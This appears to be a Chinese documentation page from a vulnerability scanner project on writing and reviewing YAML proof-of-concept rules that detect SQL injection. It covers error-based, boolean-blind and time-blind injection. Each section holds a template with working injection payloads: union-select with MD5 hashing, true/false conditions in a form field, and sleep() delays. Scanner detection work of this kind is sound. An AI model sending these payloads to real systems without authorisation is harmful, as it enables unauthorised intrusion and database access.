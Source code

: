 ```yaml
---
title: 'SQL注入'
---
```


对于sql注入相关漏洞的检测，大致分为三种类型，这里分别进行分析

<Warning>测试SQL注入漏洞，无论是哪种类型，都请不要使用`user()`、`version()`等函数来辅助验证漏洞的存在与否。此类规则**太过宽泛**，不同系统之间显示的内容都有不同的可能，在匹配时具有一定的随机性</Warning>

## 有回显注入（error based and other）

有回显的注入检测比较简单，这里以报错注入为例进行讲解

```yaml
name: poc-yaml-test-sqli-echo-based
manual: true
transport: http
set:
	r1: randomInt(8000, 10000)
rules:
	r0:
		request:
			cache: true
			method: GET
			path: /xxx.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','{{r1}}')),db_name(1),5,6,7
		expression: response.status == 200 && response.body.bcontains(bytes(substr(md5(string(r1)), 0, 31)))
expression: r0()
detail:
	author: chaitin
	links:
		- http://example.com
```

在这类的poc中，至少有一个rule会是关于sql注入的语句，但是对于结果的展示可能并不会在同一个rule中，所以下面分为两个部分讲解审核中需要注意的问题

- 对于存在`sql注入语句`的rule
    1. 对于给出的SQL注入语句
        - 语句正确无误，能够符合目标系统检出对应的漏洞，必要时可以添加一些绕过方法增加检出率
        - 对于需要验证的变量，`一定`要使用对应sql中能够使用的编码函数处理后再进行匹配，绝对不可以使用`固定值`或者`原内容`
- 对于`验证注入结果`的rule
    1. 注意返回值的编码问题，需要与注入语句中所给出的内容相同
    2. 注意返回值的长度，在部分系统中，返回内容的长度和起始位置与直接编码的结果并不相同（`updatexml`、`extractvalue` 报错回显结果可能会被截断），这时就需要使用substr等函数截取后再进行匹配

### 模板

[有回显注入](/plugins/practice/poc/Template#ordinary-injection)

## 布尔盲注（boolean based）

布尔盲注与时间盲注相似，都是一定会存在两个包含sql注入语句的rule，这里举例分析

```yaml
name: poc-yaml-test-sqli-boolean-based
manual: true
transport: http
set:
	s1: randomLowercase(5)
	a1: randomInt(1000, 9000)
	a2: randomInt(1000, 9000)
rules:
r0:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a2}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User authentication Failed")
r1:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a1}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User Login Failed for SSLVPN User")
expression: r0() && r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

大体的验证方法与实时间盲注相同，这里说明下几个需要注意的点
- 所匹配的页面内容一定是最终的内容，follow_redirects为true时需要匹配重定向后页面的内容
- 选取的匹配内容一定是条件为真或条件为假时所出现的`特有内容`，两者不可重叠，否则及其容易出现误报的现象
- 在匹配一些关键词的时候，如果r0中匹配了"EMPNAME"，那么r1中就应该写不匹配这个"EMPNAME"的语句，也就是`!response.body_string.contains("EMPNAME")`

### 模板

[布尔盲注](/plugins/practice/poc/Template#bool)

## 时间盲注（time based）

时间盲注的检测要稍微复杂一些，同时存在着因为网络环境等误报漏报的问题，这里举例讲解如何尽可能地减少这种误报

```yaml
name: poc-yaml-test-sqli-time-based
manual: true
transport: http
set:
	randSecond1: randomInt(5, 7)
	randSecond2: randomInt(2, 4)
rules:
	r0:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep(0)))v)%2B%27/
		expression: response.status == 200 && response.body_string.contains("xxxxxxx")
		output:
			undelayedLantency: response.latency
	r1:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond1}})))v)%2B%27/
            read_timeout: "10"
		expression: response.latency - undelayedLantency >= randSecond1 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
	r2:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond2}})))v)%2B%27/
            read_timeout: "10"
		expression: response.latency - undelayedLantency >= randSecond2 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
expression: r0() && r1() && r2()
detail:
	author: Chaitin
	links:
		- http://example.com
```

对于时间盲注来说，我们首先需要保证出了延时的不同，path的其他部分都要保证完全一致。那么当我们发送对应的payload时，至少是能排除掉因为访问路径或者参数的不同所导致的时间差异问题

同时这里分别说明一下基础的三个请求分别所对应的意义
- 第一个请求：延时为0，测出访问对应站点时的基础延时
- 第二个请求：延时一定不为0，且时长定在(5, 7)秒，通过延长一个较长的时间来发现是否发生一个延时，但是这个内容可能收到系统方面相关网络波动的影响分
- 第三个请求：延时一定不为0，且时长一定小于第二个请求中的延时，通过一个较短的时间判断这个延时一定是因为sql注入所发生的

那么依据上边所分析出来的内容，我们可以得到以下的要求

- 在第一条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第二条rule中的request信息保持一致
        - sleep的时间一定是`0s`
    2. 关于匹配的expression
        - 符合接口的返回内容即可，**必须**在其中匹配一些特有的返回结果，否则将很有可能产生误报。
    3. 关于output的内容
        - 这条rule一定会有output的内容，其中的变量存储着这一条请求所花费的时间
- 在第二条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第一条rule中的request信息保持一致
        - sleep的时间需要设置随机值，同时随机值的最小值一定不能小于`3s`，避免数值过小带来的网络波动问题
    2. 关于匹配的expression
        - 一定需要对访问时间的差值进行比较，确保两个相似请求之间的时间差异全部是由sleep所造成的
        - 同时无特殊的情况下，`建议`除了时间差值的比较之外，其他的内容与第一条相同
- 在第三条关于注入的rule中
    - 这一条的内容与第二条除了时间的取值都相同即可

<Warning>一定要注意添加read_timeout: "10"，不然扫描器会直接不等响应完就根据默认时间直接结束，同时要注意该漏洞的payload是否会被执行多次，造成等待时间翻倍的情况，如果存在，请自行缩短sleep时长，同时提高read_timeout的值</Warning>

<Tip>这里强求对页面中的部分内容进行匹配，目的是为了作为目标系统的指纹，消除网络环境的影响，防止一些不相干的系统造成的误报。同时匹配的内容不用过多，体现出目标系统的独特性即可</Tip>

### 模板

[时间盲注](/plugins/practice/poc/Template#time)